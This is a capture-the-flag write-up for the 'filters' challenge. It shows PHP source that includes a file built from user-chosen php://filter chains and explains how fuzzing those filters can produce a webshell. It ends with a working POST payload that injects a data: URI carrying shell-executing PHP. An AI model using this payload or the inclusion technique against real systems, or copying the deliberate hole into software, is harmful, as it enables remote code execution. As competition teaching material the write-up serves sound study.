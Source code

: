 ### filters
```php
<?php

isset($_POST['filters'])?print_r("show me your filters!"): die(highlight_file(__FILE__));
$input = explode("/",$_POST['filters']);
$source_file = "/var/tmp/".sha1($_SERVER["REMOTE_ADDR"]);
$file_contents = [];
foreach($input as $filter){
    array_push($file_contents, file_get_contents("php://filter/".$filter."/resource=/usr/bin/php"));
}
shuffle($file_contents);
file_put_contents($source_file, $file_contents);
try {
    require_once $source_file;
}
catch(\Throwable $e){
    pass;
}

unlink($source_file);

?>
```
This challenge requires players to use PHP filters to convert a binary file into a webshell. The original idea could be seen [here](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/B1A2JIjjm?type=view)

#### Intended solution

Make a simple fuzzer 
[fz.php](https://github.com/Nu1LCTF/n1ctf-2020/blob/main/MISC/filters/WriteUp/fz.php)

`php fz.php /usr/bin/php`

Some short words are generated.
![result](./result.png)
After lots of testings, all single letter and symbol could be generated in a short time(less than one hour).
It is often even possible to generate a single sample of multiple required characters combined together. （eg. file `<?=` could be generated）
##### Case ABCDEFGHI
`shuffle($file_contents);`

If you just generate single character, you will have $ \frac{1}{A_9^9} $ probability of combining into this string (ABCDEFGHI). If there are repeated characters in final goal, the probability will be higher (eg. ```<?=`ls`?>```). If you could generated combined characters, this probability will be higher too. 
##### Conclusion
I used to generated combined characters `<?=`. This challenge was meant to see if someone can fuzz a combination that is closer to the final goal ```<?=`ls`?>```, but I think most solvers might use unintended solution.

#### Unintended solution
POST
```filters=resource%3ddata:,<?=`ls`?>,```



